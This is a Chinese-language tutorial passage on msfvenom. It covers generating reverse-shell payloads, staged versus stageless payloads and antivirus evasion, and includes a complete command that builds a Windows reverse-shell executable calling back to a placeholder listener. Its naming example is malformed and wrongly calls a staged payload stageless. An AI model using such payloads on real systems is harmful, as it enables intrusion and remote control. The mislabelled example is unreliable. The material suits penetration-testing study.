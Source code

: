 以下简单地介绍一下 msfvenom：

msfvenom 的标准语法如下：
`msfvenom -p <PAYLOAD> <OPTIONS>`

例如，为了生成一个 exe 格式的 Windows x64 反向 shell，我们可以使用：
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

![](https://i.imgur.com/vuzJ3gf.png)

上述命令的四个选项含义如下：
- -f <格式>
指定输出格式，在案例中是 exe
- -o <文件> 
生成的 payload 的路径和文件名

- LHOST=<IP>
指定要回连的 IP
    
- LPORT=<port>
要回连的本地机器的端口，可以是 0 到 65535 间的未使用的任意值。然而，使用小于 1024 的端口时要 root 权限
    
++Staged vs Stageless++
现在介绍两个新概念， staged 反向 shell payloads 和 stageless 反向 shell payloads。
- Staged（分期的） paylodas 分为两部分发送。第一部分称为 stager。这是直接在服务器上执行的代码块，其会回连到一个处于等待状态的监听器，但它本身实际上不包含任意的反向 shell code。那 shell code在哪里呢？
当 stager 连接到监听器时，其会使用连接来加载真正的 payload 并直接执行它，同时会预防 payload 接触硬盘，因为传统的反病毒解决方案可能会捕捉到硬盘里的 payload。
    所以 payload 被分为两个部分：一个小的、初始的 stager 以及 stager 被激活时下载的更大庞大的反向 shell。 Staged paylodas 要求一个特别的监听器，通常是 Metasploit multi/handler。
    
- Stageless payloads 更加常见。Stageless payloads 是完全自包含的。Stagsless payloads 存在一个代码块，当我们执行它时，其会马上发回一个 shell 给等待中的监听器。
    
Stagsless payloads通常更易于使用和捕获。然而，它们也更加庞大并且更容易被反病毒或入侵检测程序发现和移除。Staged paylodas 更难以使用，但是 初始的 stager 更加短小，所以有时不会被低效的反病毒软件察觉。现代防病毒解决方案还将利用反恶意软件扫描接口 (AMSI) 来检测由 stager 加载到内存中的 payloads，从而使分阶段的 payloads 在该区域的效率不如以前。

++Meterpreter++
在 Metasploit 主题中要谈论的另一个重要的事物就是 Meterpreter shell。Meterpreter shell 是 Metasploit 特有的全功能 shell。Meterpreter shell 完全稳定，这在渗透 windows 目标时非常有用。此外，Meterpreter shell 有许多内置的功能，比如文件上传和下载。如果我们想要使用 Metasploit post-exploitation 模块下的任意工具，那么我们就需要使用一个 meterpreter shell。meterpreter shell 的缺点是它们必须被 Metasploit 捕获。
    
++Payload Naming Conventions++
当使用 msfvenom时，理解命名系统是如何工作的十分重要。msfvenom 的基本命名约定如下：
`<操作系统><体系结构>/<payload>`
    
举个例子：
```bash
linux/86/shell/reverse_tcp
```
以上命令会生成一个用于 linux x86 目标的 stageless 反向 shell。
但是以上命名约定对于 Windows32 操作系统的目标不太适用，对于这类目标，通常不指定体系结构。比如：
```bash
windows/shell_reverse_tcp
```
对于 64 比特的 Windows 目标，通常指定体系结构为 x64。
    